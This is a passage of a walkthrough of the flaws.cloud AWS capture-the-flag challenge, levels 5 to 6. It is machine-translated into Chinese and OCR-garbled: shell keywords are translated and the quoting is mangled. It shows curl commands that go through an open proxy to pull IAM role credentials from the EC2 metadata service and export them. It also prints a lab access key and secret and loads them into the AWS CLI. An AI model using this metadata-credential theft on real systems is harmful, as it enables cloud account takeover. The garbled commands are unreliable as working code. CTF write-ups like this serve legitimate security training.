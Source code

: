               “到期”：“ 2018-02-07T12：33：10Z”
            }

大！信譽！

但是鑑於這將是IAM角色，我們不能僅使用AccessKeyId和SecretAccessKey，因為它們是由STS（安全令牌服務）發出的，因此也需要使用令牌。此外，這些值會自動旋轉-因此需要以編程方式獲取它們並立即使用它們。

因此，我認為我將按以下方式編寫腳本，以編程方式將其放入環境變量中：

            導出AWS_ACCESS_KEY_ID =`curl http://4d0cf09b9b2d761a7d87be9​​9d17507bce8b86f3b.flaws.cloud/proxy/169.254.169.254/latest/meta-data/iam/security-credentials/flaws | grep“ AccessKeyId” | awk'{print $ 3}'| 切-d \“ -f2`

            導出AWS_SECRET_ACCESS_KEY =`curl http://4d0cf09b9b2d761a7d87be9​​9d17507bce8b86f3b.flaws.cloud/proxy/169.254.169.254/latest/meta-data/iam/security-credentials/flaws | grep“ SecretAccessKey” | awk'{print $ 3}'| 切-d \“ -f2`

            導出AWS_SESSION_TOKEN =`curl http://4d0cf09b9b2d761a7d87be9​​9d17507bce8b86f3b.flaws.cloud/proxy/169.254.169.254/latest/meta-data/iam/security-credentials/flaws | grep“令牌” | awk'{print $ 3}'| 切-d \“ -f2`

然後讓我們看看是否可以列出第6級存儲桶的內容：

            aws s3 ls s3：//level6-cc4c404a8a8b876167f5e70a7d8c9880.flaws.cloud                                                 
                                       PRE ddcc78ff /                                                                           
            2017-02-27 10:11:07 871 index.html

哦! looky-`ddcc78ff /`必須是我們的子目錄，讓我們在那裡瀏覽：http://level6-cc4c404a8a8b876167f5e70a7d8c9880.flaws.cloud/ddcc78ff/

優勝者！

*第6級已解鎖。*

-------
6級
-------

#### 6級-挑戰聲明：
對於最終挑戰，您將獲得一個附加了SecurityAudit策略的用戶訪問密鑰。查看它還能做什麼以及您在此AWS賬戶中還能找到什麼。
訪問密鑰ID：`AKIAJFQ6E7BY57Q3OBGA`
秘密：`S2IpymMBlViDlqcAnFuZfkVjXrYxZYhP + dZ4ps + u` *

[link]（http://level6-cc4c404a8a8b876167f5e70a7d8c9880.flaws.cloud/ddcc78ff/）

####我的方法：

這次我們從據說有效的信譽開始，因此似乎我們需要嘗試尋找一些可利用的錯誤配置。

首先，讓我們加載憑據以在AWS CLI中使用

            $ aws configure --profile缺陷級別6          
            AWS訪問密鑰ID [無]：AKIAJFQ6E7BY57Q3OBGA
            AWS秘密訪問密鑰[無]：S2IpymMBlViDlqcAnFuZfkVjXrYxZYhP + dZ4ps + u
            默認區域名稱[無]：us-west-2
            默認輸出格式[無]：

AWS文檔聲明了以下與“ SecurityAudit”託管策略相關的內容：
